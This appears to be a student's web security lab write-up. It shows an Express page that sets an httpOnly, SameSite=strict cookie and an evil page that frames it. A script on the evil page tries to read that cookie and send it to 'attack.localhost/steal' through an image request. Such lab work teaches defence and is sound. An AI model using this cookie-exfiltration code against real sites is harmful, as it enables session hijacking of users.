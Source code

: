* Host the victim page and set the cookie for the page. To protect the cookie, I have included httpOnly and Samesite (strict) in Set-Cookie HTTP response header.
```diff
const port = 5000
const app = express()
app.use((cookieParser()))

app.get('/safe', (req, res) => {
	res.cookie('login','SecretAgent', {httpOnly: true, sameSite:'strict'})
	stream = createReadStream('safe_site.html')
    stream.pipe(res)  
})
```


* Iframe the victim site on the evil site (evil_site1.html). Add javascript to steal the cookies of an iframed page.
```diff
<!DOCTYPE html>
<html lang="en">
<head>
    <title>Frame-attack</title>
</head>
<body>
	<h1>Assignment 4, CS 495/595 Web Security, Spring 2021</h1>
	<br>
    <h2>Let steal some cookies using iframes!</h2>

	<hr>
     <p>Below iframe cookie is safe</p>
	<script>
		const iframe = document.createElement('iframe')
		iframe.src = 'http://localhost:5000/safe'
		document.body.appendChild(iframe)

		document.write(iframe.contentDocument.cookie)
		console.log(iframe.contentDocument.cookie)

		setTimeout(function() {
	    const p = document.createElement('p')
	    p.innerHTML = iframe.contentDocument.cookie
	    document.body.appendChild(p)

	    new Image().src = 'https://attack.localhost:5000/steal?cookie=' + iframe.contentDocument.cookie
			}, 5000);
	</script>
</body>
</html>
```

* Run the attack by hosting the evil site.
```diff
const app = express()

app.get('/1', (req, res) => {
    stream = createReadStream('evil_site1.html')
    stream.pipe(res)  
})
```
